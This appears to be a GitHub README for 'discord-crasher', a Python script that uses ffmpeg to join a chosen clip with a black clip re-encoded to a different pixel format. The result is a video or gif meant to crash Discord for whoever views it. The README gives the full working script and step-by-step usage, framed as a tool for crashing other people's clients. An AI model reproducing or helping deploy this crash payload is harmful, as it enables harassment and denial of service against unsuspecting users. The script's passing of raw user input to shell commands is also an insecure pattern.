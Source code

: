 # discord-crasher
Creates videos with ffmpeg that can crash discord

> Discord Crasher

This script will make a video with ffmpeg that will be able to crash peoples discords

you can later convert it to a .gif file so it will instacrash when you send the gif ^^

Files that will be there sinse the beggining:
black.mp4 //need it for later as the second video (will be renamed to new-vid.mp4)
video.mp4 //will be the first video show in the gif / video that will be the crasher.mp4

These files will be created and deleted when the script finishes:
new-vid.mp4 //black.mp4 wont be deleted code.txt //will be used later

okay so you have for example black.mp4 (this will be forever there as the second video)like (first video then the second video starts playing its useless(second video)) so you leave it as black.mp4 its a black 10 secs vid

first comes this part of the code which asks for the name of the video.mp4 that will be the first video in the gif / video that will be crashing.
i t also executes this ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4
 //firstf is input of the first video (the first video that will be played at the beggining of the crashing video / gif you will have)

print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
firstf = input(f"""    {Fore.BLUE }${Fore.RESET} Video => """) //remember this for later
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
os.system(f"""ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4""")
print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")

then it uses this to write to the code.txt file which you willl need it later :
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
open("code.txt", "w").close()
file = open("code.txt","w") 
file.write(f"""file {firstf}\n""")
file.write(f"""file new-vid.mp4""")
file.close()
print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
The code:

import os,sys
import subprocess
import glob
from colorama import Fore, Back, Style
def clear():
    os.system("clear")

def main():
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    firstf = input(f"""    {Fore.BLUE }${Fore.RESET} Video => """)
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    os.system(f"""ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4""")
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    open("code.txt", "w").close()
    file = open("code.txt","w") 
    file.write(f"""file {firstf}\n""")
    file.write(f"""file new-vid.mp4""")
    file.close()
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    os.system("ffmpeg -f concat -i code.txt -codec copy crasher.mp4")
    os.system("rm -rf code.txt")
    os.system("rm -rf new-vid.mp4")
    os.system("clear")
    clear()
main()
FIles you will need to have (same directory):
script.py
black.mp4 (will always be there !!!dont remove it!!!)
video.mp4(or whatever name your vid is(example: part1.mp4)) (first part of video crasher / gif)

Stuff you need to install for the python script to work:
pip3 install colorama
